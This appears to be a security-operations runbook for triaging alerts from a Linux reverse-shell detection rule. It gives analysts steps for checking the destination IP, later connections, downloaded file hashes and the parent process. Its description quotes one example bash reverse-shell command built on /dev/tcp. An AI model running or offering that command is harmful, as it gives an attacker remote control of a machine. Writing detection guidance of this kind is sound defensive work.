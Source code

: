 # How to process *Linux Reverse Shell Indicator* rule
This rule detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')

# 1. Identify
- look the RAW Event for the matched command and destination IP
- check the destination IP: if it's public IP, search it on [Shodan](https://www.shodan.io/)

# 2. Contextualize
- go to SIEM and check what happened after command has been matched:
  - new connections from public IPs ? To public IPs ? Check found IPs with [Shodan](https://www.shodan.io/) 
  - downloading entries from internet ? check downloaded file hash with [VirusTotal](https://www.virustotal.com/gui/home/search)
- go to SIEM and check the parent process name (from PID): is it legitimous?


# 3. Decide
- by default this rule is dangerous. If no good indicators are found (private IP, no further action) &rarr; true positive

# Known False Negatives
None yet.

